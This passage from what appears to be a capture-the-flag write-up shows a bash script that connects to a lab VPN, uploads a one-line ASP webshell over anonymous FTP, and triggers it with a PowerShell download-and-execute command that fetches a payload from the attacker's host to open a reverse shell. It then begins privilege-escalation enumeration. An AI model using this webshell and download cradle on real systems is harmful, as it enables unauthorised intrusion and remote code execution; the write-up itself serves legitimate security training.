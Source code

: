      29 sleep 1  # let webserver start
     30 echo [*] Restarting IPsec VPN
     31 ipsec restart 2>/dev/null
     32 sleep 1  # wait for restart to finish
     33 ipsec up conceal | grep successfully || echo "Failed to connect IPSec VPN"
     34 
     35 echo [*] FTPing webshell to target
     36 echo '<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>' > /tmp/cmd.asp
     37 ftp -n 10.10.10.116 <<End-of-Session >/dev/null
     38 user anonymous pass 
     39 del 0xdf.asp
     40 put /tmp/cmd.asp 0xdf.asp
     41 bye
     42 End-of-Session
     43 rm /tmp/cmd.asp
     44 
     45 echo "[*] Triggering shell. Webserver should be listening on 80"
     46 curl "http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://${ip}/${file}%27)" &
     47 
     48 sleep 4  # wait for target to connect to webserver
     49 echo "[*] Killing web server"
     50 kill -9 $WEB_PID
     51 echo "[*] Should have shell on netcat"
     52 
     53 sleep 5 # wait for error messages on failure
    

Here it is in action:

![](https://0xdfimages.gitlab.io/img/conceal-shell.gif)

## Privesc to System

### Enumeration

Checking `whoami /priv` shows I have `SeImpresonatePrivilege`:

    
    
    PS C:\users\Destitute\appdata\local\temp> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeShutdownPrivilege           Shut down the system                      Disabled
    SeAuditPrivilege              Generate security audits                  Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeUndockPrivilege             Remove computer from docking station      Disabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    SeTimeZonePrivilege           Change the time zone                      Disabled
    